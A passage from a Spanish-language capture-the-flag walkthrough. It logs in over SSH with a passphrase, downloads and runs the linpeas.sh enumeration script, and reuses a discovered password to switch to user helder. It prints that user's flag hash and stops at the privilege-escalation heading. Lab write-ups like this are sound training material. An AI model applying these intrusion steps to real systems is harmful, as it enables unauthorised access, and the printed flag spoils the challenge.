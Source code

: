 ### SSH

```shell
ssh -i id_rsa jack@<IP>
```

Metemos como contraseña `bananas` y veremos que estaremos dentro.

## Escalate user helder

Vamos a descargarnos el `linpeas.sh` para que nos enumere el sistema a ver que encuentra:

```shell
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
bash linpeas.sh
```

Info:

<figure><img src="../../.gitbook/assets/image (349).png" alt=""><figcaption></figcaption></figure>

Veremos que hay una contraseña de `jack` pero vamos a probarla para el usuario `helder`.

```shell
su helder
```

Metemos como contraseña `Il0V3lipt0n1c3t3a` y con esto veremos que si seremos dicho usuario, por lo que leeremos la `flag` del usuario.

> user.txt

```
5c38d7d08c687355cb0ae3b6025cbe99
```

## Escalate Privileges
